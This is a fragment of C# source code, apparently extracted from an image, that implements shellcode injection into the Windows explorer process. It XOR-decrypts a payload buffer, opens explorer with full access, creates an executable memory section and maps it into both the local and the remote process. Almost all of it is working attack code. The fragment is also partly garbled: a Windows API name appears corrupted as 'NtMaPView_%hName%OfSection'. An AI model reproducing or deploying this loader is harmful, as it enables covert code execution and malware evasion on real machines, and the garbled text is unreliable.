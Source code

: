             // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            int bufLength = buf.Length;
            UInt32 uBufLength = (UInt32)bufLength;

            // Get handle on a local process
            IntPtr hLocalProcess = Process.GetCurrentProcess().Handle;

            // Get handle on a remote process (by name)
            //string processName = args[0];
            Process[] pList = Process.GetProcessesByName("explorer");
            if (pList.Length == 0)
            {
                Console.WriteLine("[-] No such process");
                return;
            }
            int processId = pList.First().Id;
            IntPtr hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
            if (hRemoteProcess == IntPtr.Zero)
            {
                Console.WriteLine("[-] Failed to open remote process");
                return;
            }

            // Create RWX memory section for the shellcode
            IntPtr hSection = new IntPtr();
            if (NtCreateSection(ref hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, IntPtr.Zero, ref uBufLength, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero) != 0)
            {
                Console.WriteLine("[-] Falied to create a section for the shellcode");
                return;
            }

            // Map the view of created section into the LOCAL process's virtual address space (as R-W)
            IntPtr baseAddressL = new IntPtr();
            ulong sectionOffsetL = new ulong();
            if (NtMaPView_%hName%OfSection(hSection, hLocalProcess, ref baseAddressL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out uBufLength, 2, 0, PAGE_READ_WRITE) != 0)
            {
                Console.WriteLine("[-] Falied to map the view into local process's space");
                return;
            }

            // Map the view of (the same) created section into the REMOTE process's virtual address space (as R-E)
            IntPtr baseAddressR = new IntPtr();
            ulong sectionOffsetR = new ulong();
            if (NtMaPView_%hName%OfSection(hSection, hRemoteProcess, ref baseAddressR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out uBufLength, 2, 0, PAGE_READ_EXECUTE) != 0)
            {
                Console.WriteLine("[-] Falied to map the view into remote process's space");
                return;
            }
